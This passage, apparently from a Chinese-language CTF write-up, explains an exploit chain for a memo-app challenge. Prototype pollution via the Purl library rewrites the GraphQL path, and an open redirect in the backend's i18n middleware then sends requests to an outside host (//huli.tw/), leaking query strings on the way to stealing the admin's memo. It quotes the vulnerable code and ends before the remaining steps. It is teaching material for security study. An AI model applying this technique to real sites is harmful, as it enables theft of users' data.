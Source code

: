 ``` js
            });
        }
    }
    return res;
}
```

這邊前端也用了 Purl 這個 lib，所以一樣有 prototype pollution 可以用，但這題可以污染什麼呢？答案在底下這一段裡面：

``` js
const purl = window.purl

const memoId = purl().param('id')

const gql = new GraphQL(location.origin)

class GraphQL {
    constructor(host, option = {}) {
        this.endpoint = host + "/";
        this.endpoint += option.path || "graphql";
    }
    // ...
}
```

你可以污染 path，就能操控 `option.path`，但操控這個可以做什麼？這就跟後端的 i18n 邏輯有關了，實作如下：

``` js
// simple i18n
app.use(function (req, res, next) {
    let origPath = req.originalUrl.split('?')[0]
    let origParam = req.originalUrl.split('?')[1]
    let langPath = 'en/'
    
  
    if (origPath.match(/((\/en\/?)|(\/ja\/?))$/) || origPath.match(/^(\/static\/|\/graphql\/?|\/favicon.ico\/?)/)) {
      next()
    } else {
      if (req.headers['accept-language'] && req.headers['accept-language'].split(',')[0] === 'ja') langPath = 'ja/'
      res.redirect(origPath + (origPath.endsWith('/') ? '' : '/') + langPath + (origParam ? '?' + origParam : ''))
    }
  })
```

要注意的是 `req.originalUrl` 只會有 path 的部分，所以像 http://chall:11005/abc 的話，originalUrl 就會是 `/abc`。

靠著上面操控的 path，我們可以把 path 污染成 `/huli.tw/`，這樣送出的 URL 就是：`http://34.85.126.119:11005//huli.tw/?extensions=...`，到了後端的 redirect 邏輯，最後就會被導到 `//huli.tw/en/?extension=...`。

如此一來，就可以靠著 prototype pollution 把 request 導到自己的 server，拿到 query string。

這題的目的是要偷 admin 的 memo，可是我們並不知道 admin memo id，要怎麼辦呢？
